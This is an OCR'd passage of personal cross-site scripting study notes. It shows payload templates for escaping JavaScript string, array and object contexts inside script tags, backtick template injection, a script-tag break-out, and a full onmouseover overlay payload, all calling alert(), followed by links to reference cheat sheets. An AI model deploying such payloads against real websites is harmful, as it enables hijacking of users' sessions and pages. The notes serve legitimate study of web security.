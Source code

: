  - Full: `'onmouseover=this.removeAttribute('onmouseover');this.removeAttribute('Style');alert() style=position:fixed;top:0;left:0;width:100%25;color:transparent;`


       ============================================================


  **4. Inside JS**
* Uses: JS Arrays/comments/functions/numbers/strings/objects/operators/template literals
* Browser will _parse Html BEFORE running JS_
* This **assumes you're input/source is INSIDE** `<script>` & `</script>`

       - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -

    1. **Break Out of String Context** within `<script>` & `</script>`
      + To _prevent errors_, surround payload with _proper quotes_ and `+`s or `-`s
       - In the templates below the `'`, `"`, `backticks` are used to _exit the string context_
       - Then the `+` or `-` help prevent the JS for failing
     ```Templates
     <script>
         ''+payload+''   ''-payload-''
         ""+payload+""   ""-payload-""
         ``+payload+``   ``-payload-``
     </script>
     ```
     ```Examples
     <script>
       ''+alert()+'' 
        var input = ''+alert()+''
     </script>
     ```
    
      + When using the **backtick**, while it can be used in a string, it can also _hold code_:
    ```BACKTICKS_Inject_Code
      `${code}`
      `${alert()}`
      ^----------- Only works on backticks (not "" or '')
    ```

      + Use a _closing with an opening_ tag `</script><script>`
      ```Example
     <script>
      let s = '</script><script>alert()//'
     </script>
      ```

       - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -


    2. **Break Out of Array Context** within `<script>` & `</script>`
     ```',alert,'
     [1,'',alert(),'']
    ```
    ```',x:alert(),'
    {number:1,name'',x:alert(),y:''}
     ```


[Portswigger Cheat Sheet]: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
[Above Downloaded File]: /sec/web/xss/xss-cheat-sheet.pdf
[AppSecEU Slides & Videos]: https://2017.appsec.eu/slides-and-videos
[Course]: https://chefsecure.com/courses/xss
[LiveOverflow]: https://www.youtube.com/watch?v=HcrQy0C-hEA
[OWASP Cheat Sheet]: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  [Payload of All Things]: https://github.com/swisskyrepo/PayloadsAllTheThings
[Link]: https://security.stackexchange.com/questions/173032/xss-payload-without
[Script Gadgets]: /sec/web/xss/Bypassing XSS mitigations via Script gadgets.pdf
[Video]: https://www.youtube.com/watch?v=p07acPBi-qw&list=PLpr-xdpM8wG8RHOguwOZhUHkKiDeWpvFp&index=4
[Link]: http://www.jsfuck.com/
[There's a chapter on JSONP - LiverOverflow]: https://www.youtube.com/watch?v=aCexqB9qi70
[LiveOverflow]: https://www.youtube.com/watch?v=eQFbG6CwwdI
 [Chef Secure]:  https://chefsecure.com/courses/xss/recipes/how-to-create-real-xss-exploits-to-attack-websites
 [12 XSS]: https://chefsecure.com/blog/the-12-exploits-of-xss-mas-infographic
[Link]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP